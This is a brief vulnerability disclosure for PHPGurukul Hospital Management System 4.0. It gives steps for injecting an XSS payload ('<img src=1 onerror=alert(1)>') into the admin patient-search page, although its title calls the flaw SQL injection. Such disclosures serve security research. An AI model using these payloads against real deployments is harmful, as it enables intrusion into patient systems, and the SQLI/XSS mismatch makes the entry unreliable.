 * Title: Hospital Management System SQLI
* Exploit Author: Thinkland Security Team
* Vendor Homepage:https://phpgurukul.com/hospital-management-system-in-php
* Software Link:https://phpgurukul.com/wp-content/uploads/2018/02/Hospital-Management-System-Project.zip
* Version: 4.0
* Vulnerability verification
1. Enter username and password to log in
2. go to /Hospital%20Management%20System%20Project/hospital/hms/admin/patient-search.php,input the command:"><img src=1 onerror=alert(1)>'  
![image]()  
